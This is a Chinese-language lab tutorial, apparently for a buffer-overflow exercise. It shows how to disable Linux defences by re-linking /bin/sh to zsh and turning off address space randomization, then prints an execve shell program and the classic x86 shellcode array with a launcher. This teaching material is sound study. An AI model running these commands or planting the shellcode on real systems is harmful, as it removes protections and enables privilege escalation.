 # Environment Setup

Linux有两个防御机制：

- /bin/sh符号链接指向的是/bin/dash，dash和bash都有防御机制，当它们发现自己是在setuid进程中被执行的时候，就会euid为进程的真实用户id，放弃特权
- 地址空间随机化：Linux 使用地址空间随机化来随机化堆和堆栈的起始地址

为了正常进行实验，需要：

- 关闭地址空间随机化
- 将/bin/sh符号链接指向没有保护的shell，比如zsh

```
sudo ln -sf /bin/zsh /bin/sh

sudo sysctl -w kernel.randomize_va_space=0
```

shellcode：

- shellcode本质是启动shell的代码，一般是二进制形式
- 需要被装载到内存中从而可以使得恶意程序跳转到shellcode代码所在位置

C语言版本的shellcode：

```c
#include <stdio.h>
int main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

上述程序对应的二进制形式被写在了code数组中：

```c
/* call_shellcode.c  */

/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>

const char code[] =
  "\x31\xc0"             /* xorl    %eax,%eax              */
  "\x50"                 /* pushl   %eax                   */
  "\x68""//sh"           /* pushl   $0x68732f2f            */
  "\x68""/bin"           /* pushl   $0x6e69622f            */
  "\x89\xe3"             /* movl    %esp,%ebx              */
  "\x50"                 /* pushl   %eax                   */
  "\x53"                 /* pushl   %ebx                   */
  "\x89\xe1"             /* movl    %esp,%ecx              */
  "\x99"                 /* cdq                            */
  "\xb0\x0b"             /* movb    $0x0b,%al              */
  "\xcd\x80"             /* int     $0x80                  */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
   strcpy(buf, code);
   ((void(*)( ))buf)( );
} 
```
